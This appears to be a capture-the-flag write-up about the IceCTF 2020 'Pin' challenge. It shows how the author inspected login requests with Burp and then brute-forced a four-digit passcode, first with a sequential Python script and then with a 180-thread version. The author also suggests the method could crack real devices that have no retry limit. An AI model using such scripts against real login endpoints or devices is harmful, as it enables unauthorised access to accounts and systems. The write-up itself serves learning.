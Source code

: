 ```yaml
---
layout: post
title: IceCTF 2020 - Multithreading Requests 
description: IceCTF took place over the weekend and had a range of fun challenges. This writeup will be focussing on the miscellaneous category and the 'Pin' challenge, which involved looking at requests in Burp and multithreading them using Python to brute-force a four digit passcode in a short period of time.
image: https://www.ionos.com/digitalguide/fileadmin/DigitalGuide/Teaser/nvme-t.jpg
categories: [CTF]
---
```


# The Challenge
**Name:** Pin

**Category:** Miscellaneous 


**Points:** 100


**Requirements:** Python, [Burp](https://portswigger.net/burp/communitydownload).


>You are late again, and just can’t remember the PIN code to the locker that has the secret Novichok stuff you need for work. What do you do?

# Initial Analysis
The link in the challenge description takes us to a lockscreen which resembles an iOS one. Immediately I tried entering a bunch of random passcodes such as 1234, 1337 ect. to see if anything in the URL would change (or maybe even luck out and get it through guessing) but as expected, I didn't learn much. I decided to fire up Burp, a tool which allows one to peek at requests and modify them, which gave me a better understanding of what was going on behind the scenes. 

![image](https://i.imgur.com/BZ21cjc.png)

I navigated to the 'Proxy' tab and selected 'Open Browser'. This opens up Chromium which Burp can directly interface with. 'Intercept is on' should be selected by default, which will allow us to stop and modify any requests before they're sent. 

Now that we've got everything we need, we can paste the link into the browser and see what Burp tells us. 

![image](https://i.imgur.com/VcQBa38.png)

First off, since we're only navigating to the home page there's nothing we didn't already know in this request. What we're actually interested in is what happens when we enter in a passcode, so let's try that.

![image](https://i.imgur.com/z3o7mXy.png)

This looks more promising...we can see a GET request to another URL (www.misc-pin.vuln.icec.tf/login/1337) which contains the passcode we just entered. This is great news, as it means we can brute-force it through spamming requests with all 10,000 possible combinations. It'd also be good to see how the website responds to a wrong passcode - we can use Burp's 'Repeater' tool for this. Simply right click the request and select the 'Send to Repeater' option.

![image](https://i.imgur.com/Ym30oug.png)

Navigate to the 'Repeater' tab and click 'Send':

![image](https://i.imgur.com/I0HzeB0.png)

We get some JSON data returned, which is perfect, as it means we can check the response from the website to see if the ``correct`` field is set to true or false when we automate it. 

# Bruteforcing Requests 
We now know that the passcode is being sent to /login/ via a GET request, so all we need to do is write a script that can try every combination. This is where the Python [requests](https://pypi.org/project/requests/) module comes in handy. The following script mimics someone entering in all possible passcodes and analyses the response from the website: 

```python
import requests
  
for pin in range(9999):
    # allows us to try '0001' instead of just '1' as a passcode
    pin = '{0:04}'.format(pin)
    print('Trying: ' + pin)

    # creates a new URL each time with a new passcode to try
    URL = "http://www.misc-pin.vuln.icec.tf/login/" + str(pin)

    # performs a GET request and stores the response in r
    r = requests.get(url = URL)
    temp = str(r.content)
    print(temp)

    # checks if the 'correct' field is set to true
    if 'true' in temp:
        print('FOUND!' + '\nPASSWORD: ' + pin)
        quit()
```

The above is a relatively easy solution that gets the job done...but it's really slow. I left it running, looked at some other challenges and eventually got a match for ``1729`` after 15 minutes. The flag was ``IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}``, which I thought was quite fitting. 

![image](https://i.imgur.com/NalDvt5.png)

Now, it would've been okay to stop here as the challenge was solved and I had the flag, but I knew that there was a much faster way to do this so I looked into multithreading and came across [ThreadPoolExecutor](https://www.tutorialspoint.com/concurrency_in_python/concurrency_in_python_pool_of_threads.htm). Through rewriting the script, I came up with the following: 

```python
from concurrent.futures.thread import ThreadPoolExecutor
from requests import Session, Response
from requests.adapters import HTTPAdapter
from functools import partial
from multiprocessing import Pool
import tqdm
import os

def execute(urls, method, size):
    i = 0
    # creates a new session 
    session = Session()
    session.mount('http://', HTTPAdapter(pool_maxsize = size))

    # creates a worker that calls make_request
    worker = partial(method, session)

    # executes make_request asynchronously with 180 workers
    with ThreadPoolExecutor(size) as pool:

        # creates a progress bar and allows us to check responses 
        for req in tqdm.tqdm(pool.map(worker, urls), total = len(urls)):
            temp = str(req.content)
            if "true" in temp:
                print("\n\nFOUND! Password is: " + str(i))
                print(str(req.content) + "\n")
                quit()
            i+=1
    session.close()

# method we want to multithread
def make_request(session, url):
    return session.get(url)

# generates a list of all 10000 URLs
urls = [("http://www.misc-pin.vuln.icec.tf/login/" + "{0:04}".format(num)) for num in range(9999)]

# kick starts the program with 180 workers
execute(urls, make_request, 180)
```

This cracked the passcode in under 10 seconds (compared to 15 minutes before) and works by doing the previous solution, but much faster through calling ``make_request`` 180 times, rather than just once per iteration of the URL list. The optimised script gets through 1729 requests before the previous one can even do 15. 

The reason I selected ``180`` for the amount of workers is because I found it was a sweet spot in terms of speed for my computer as it started to slow down with anything higher - although I'm sure this will greatly vary depending on a device's CPU. I also added a progress bar using [tqdm](https://github.com/tqdm/tqdm). Here's a time comparison between the two (multithreaded version on the right):

![image](https://i.imgur.com/uDPJldv.gif)

and that's it! Bit of a shorter writeup, but I thought I'd share my solution which I think will come in handy for future challenges. I'm sure there are many other applications of this too (such as cracking passcodes of real devices which use digit combinations and have no retry limit), so that's something I'll be looking into a little more...ethically of course.

# What did I learn?

1) Multithreading in Python. 


2) Multithreading and brute-forcing go hand in hand. 


3) Shorter solutions aren't always better. 
